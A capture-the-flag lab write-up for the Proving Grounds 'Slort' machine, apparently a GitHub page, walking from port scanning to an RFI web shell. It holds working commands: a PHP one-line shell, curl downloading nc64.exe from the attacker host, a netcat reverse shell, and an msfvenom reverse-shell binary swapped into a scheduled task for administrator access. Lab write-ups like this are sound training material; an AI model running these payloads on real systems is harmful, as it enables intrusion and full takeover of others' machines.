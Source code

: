 # **Slort | PG Practice**

- Running an nmap scan we have 

```bash
# Nmap 7.94SVN scan initiated Fri Aug  9 05:39:00 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.220.53
Warning: 192.168.220.53 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.220.53
Host is up (0.14s latency).
Not shown: 65015 closed tcp ports (conn-refused), 505 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, FourOhFourRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, NULL, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie: 
|_    Host '192.168.45.228' is not allowed to connect to this MariaDB server
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.220.53:4443/dashboard/
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.220.53:8080/dashboard/
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
--SNIP--
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
--SNIP--
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-08-09T04:42:55
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug  9 05:43:11 2024 -- 1 IP address (1 host up) scanned in 250.80 seconds
```

- No share listing on SMB

```bash
❯ smbclient -L \\\\192.168.220.53\\
Password for [WORKGROUP\sec-fortress]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

- No anonymous access on `FTP`

```bash
❯ ftp 192.168.220.53
Connected to 192.168.220.53.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit http://sourceforge.net/projects/filezilla/
Name (192.168.220.53:sec-fortress): anonymous
331 Password required for anonymous
Password: 
530 Login or password incorrect!
ftp: Login failed
ftp> 
```

> Found an exploit for the `FileZilla` version at https://github.com/NeoTheCapt/FilezillaExploit which creates a local user on the system that has full access to the `C:\` directory. We have to probably upload this file somehow on the server and get access it on the web endpoint.

- We don't have access to `MSRPC` also

```bash
❯ rpcclient -U "" -N 192.168.220.53
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

- We are not allowed to connect to `MYSQL` on port 3306

```bash
❯ mysql -h 192.168.220.53
ERROR 1130 (HY000): Host '192.168.45.228' is not allowed to connect to this MariaDB server
```

- Performing directory fuzzing with `dirsearch` i found few interesting directories

```bash
❯ dirsearch --url http://192.168.220.53:8080/                                                             
                                                                                                          
  _|. _ _  _  _  _ _|_    v0.4.3                                                                          
 (_||| _) (/_(_|| (_| )            
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
                                                                                                          
Output File: /home/sec-fortress/PG/slort/reports/http_192.168.220.53_8080/__24-08-09_05-51-20.txt
                                                                                                          
Target: http://192.168.220.53:8080/                                                                       

[05:51:20] Starting:   

--SNIP--
[05:52:10] 301 -  351B  - /dashboard  ->  http://192.168.220.53:8080/dashboard/                           
[05:52:10] 200 -    6KB - /dashboard/howto.html             
[05:52:10] 200 -    7KB - /dashboard/                
[05:52:10] 200 -   31KB - /dashboard/faq.html                                                             
[05:52:10] 200 -   78KB - /dashboard/phpinfo.php
[05:52:18] 200 -   30KB - /favicon.ico
[05:52:58] 301 -  346B  - /site  ->  http://192.168.220.53:8080/site/
[05:52:58] 301 -   27B  - /site/  ->  index.php?page=main.php
[05:53:15] 200 -  782B  - /Webalizer/
[05:53:17] 200 -  774B  - /xampp/  
```

> Out of which http://192.168.220.53:8080/site/index.php?page=main,php is the most interesting

- I decided to try out RFI on this endpoint first of all by saving the below PHP code into a file and starting up a python server 

```bash
# Save into a .php file
<?=`$_GET[0]`?>

# Start up python server
python3 -m http.server 80
```



- Then access the URL from the web endpoint ;

```http
http://192.168.220.53:8080/site/index.php?page=http://192.168.45.228/rev.php&0=whoami
```

![image](https://github.com/user-attachments/assets/5b43ab1c-20df-49e2-ab22-f8acfcd0933b)

- Now to get reverse shell, i dropped a `nc64.exe` binary to target on the `\users\public` directory which is always world writable

```http
http://192.168.220.53:8080/site/index.php?page=http://192.168.45.228/rev.php&0=curl+http://192.168.45.228/nc64.exe+-o+\users\public\nc64.exe

view-source:http://192.168.220.53:8080/site/index.php?page=http://192.168.45.228/rev.php&0=dir+\users\public\

view-source:http://192.168.220.53:8080/site/index.php?page=http://192.168.45.228/rev.php&0=\users\public\nc64.exe+192.168.45.228+4444+-e+cmd.exe
```



- Now make sure to start up your listener before running the last command above to get your reverse shell

```bash
❯ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.220.53] 50171
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\site>whoami
whoami
slort\rupert
```

- Navigating to `C:\` i found a backup directory

```powershell
C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
               3 File(s)         85,179 bytes    
               2 Dir(s)  28,609,777,664 bytes free
```

- Concatenating `info.txt` we have this message;

```powershell
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

> Meaning '`backup.txt`' runs every 5 minutes by some automated user, if we can replace this binary with our reverse shell binary, maybe we might get shell as that automated user

- First of all i checked if we have write access to the `TFTP.EXE` file and yes we do, cos' we belong to the `BUILTIN\Users` group

```powershell
PS C:\Backup> icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)
```

- Now generate a `TFTP.exe` file with `msfvenom` and replace with the current `TFTP.EXE` file

```powershell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=444 -f exe > TFTP.exe                                                                                                                                  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes   
Final size of exe file: 7168 bytes
```

```powershell
PS C:\Backup> curl http://192.168.45.228/TFTP.exe -o C:\Backup\TFTP.exe
```

- Then we wait for the magic to happen which indeed gave us the **administrator** user as the automated user

```cmd
❯ rlwrap nc -lvnp 444
listening on [any] 444 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.220.53] 50719
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator
```

